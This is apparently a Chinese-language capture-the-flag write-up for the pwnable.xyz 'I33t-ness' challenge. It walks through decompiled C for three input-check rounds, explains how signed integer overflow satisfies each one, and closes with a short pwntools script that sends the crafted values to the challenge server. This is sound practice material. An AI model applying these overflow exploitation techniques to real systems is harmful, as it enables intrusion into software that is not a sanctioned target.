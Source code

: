 ```yaml
---
title: pwnable_I33t_ness
date: 2019-12-25 08:25:34
tags: 
- pwn
- pwnable.xyz
---
```


# pwnable.xyz I33t-ness

### 0x1 分析

老样子，看一下安全选项：

![](https://i.loli.net/2019/12/25/qAzb9dXECJkvjMg.png)

看样子不好用其他手段了。

分析一下函数吧。

`main()`：

``` c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup(*(_QWORD *)&argc, argv, envp);
  puts("The l33t-ness level.");
  if ( (unsigned __int8)round_1("The l33t-ness level.") && (unsigned __int8)round_2() && (unsigned __int8)round_3() )
    win();
  return 0;
}
```

从这里看得出来。只要满足三个函数`round_1` `round_2` `round_3`返回值不为0就可以调用`win`了。

那就看看这三个函数吧。

`round_1`:

```c
_BOOL8 round_1()
{
  _BOOL8 result; // rax
  int v1; // [rsp+8h] [rbp-38h]
  int v2; // [rsp+Ch] [rbp-34h]
  char s; // [rsp+10h] [rbp-30h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 1eet ===");
  memset(&s, 0, 0x20uLL);
  printf("x: ", 0LL);
  read(0, &s, 0x10uLL);
  printf("y: ", &s);
  read(0, &v4, 0x10uLL);
  if ( strchr(&s, 45) || strchr((const char *)&v4, 45) )
    return 0LL;
  v1 = atoi(&s);
  v2 = atoi((const char *)&v4);
  if ( v1 <= 1336 && v2 <= 1336 )
    result = v1 - v2 == 1337;
  else
    result = 0LL;
  return result;
}
```

要求我们输入两个值`s` `v4` ，并且都不为负数。满足大小范围的情况下相减得`1337`,那么很容易想到`int`的溢出。

`round_2`：

```c
_BOOL8 round_2()
{
  int v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("=== t00leet ===");
  v1 = 0;
  v2 = 0;
  _isoc99_scanf("%d %d", &v1, &v2);
  return v1 > 1 && v2 > 1337 && v1 * v2 == 1337;
}
```

这个和上一个的函数情况差不多。还是让`v1` 和`v2`相乘溢出为`1337`。

`round_3`：

```c
_BOOL8 round_3()
{
  signed int i; // [rsp+0h] [rbp-30h]
  __int64 v2; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  int v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 3leet ===");
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0;
  _isoc99_scanf("%d %d %d %d %d", &v2, (char *)&v2 + 4);
  for ( i = 1; i <= 4; ++i )
  {
    if ( *((_DWORD *)&v2 + i) < *((_DWORD *)&v2 + i - 1) )
      return 0LL;
  }
  return HIDWORD(v3) + (_DWORD)v3 + HIDWORD(v2) + (_DWORD)v2 + v4 == HIDWORD(v3)
                                                              * (_DWORD)v3
                                                                   * HIDWORD(v2)
                                                                   * (_DWORD)v2
                                                                   * v4;
}
```

这个看起来满足条件有点麻烦。但是其实也不麻烦。

这了IDA pro 反编译出来的输入函数有点不大对。所以看一下源码。

```assembly
lea     rax, [rbp+var_20]
lea     rdi, [rax+10h]
lea     rax, [rbp+var_20]
lea     rsi, [rax+0Ch]
lea     rax, [rbp+var_20]
lea     rcx, [rax+8]
lea     rax, [rbp+var_20]
lea     rdx, [rax+4]
lea     rax, [rbp+var_20]
mov     r9, rdi
mov     r8, rsi
mov     rsi, rax
lea     rdi, aDDDDD     ; "%d %d %d %d %d"
mov     eax, 0
call    __isoc99_scanf
```

可以看出来。在这里输入了`5`个数给了五个位置。每个数占`4`个字节。

这样也正好对应了`return`里面的式子。

这里有个注意的地方：

`HIDWORD`取变量的高位`4`字节

`LODWORD`取变量的地位`4`字节

`_DWORD`取`4`字节。

```c
#define HIDWORD(l) ((DWORD)(((DWORDLONG)(l)>>32)&0xFFFFFFFF))
#define LODWORD(x)  (*((_DWORD*)&(x)))
```

举个🌰：

`x = 0xFFFFFFFFAAAAAAAA`  

`LODWORD（x）`是 `0xAAAAAAAA` 

`HIDWORD（x）`是 `0xFFFFFFFF`

### 思路

这里思路就已经出来。前两个函数输入两个整形溢出即可，

最后一个函数输入满足表达式的`5`个整形即可。

### 代码

```python
from pwn import *

p = remote("svc.pwnable.xyz", 30008)

p.readuntil("x: ")
p.sendline("1")
p.readuntil("y: ")
p.sendline("4294965960")

p.readuntil("=\n")
p.sendline("3 1431656211")

p.readuntil("=\n")
p.sendline("-2 -1 0 1 2")

p.interactive()
```

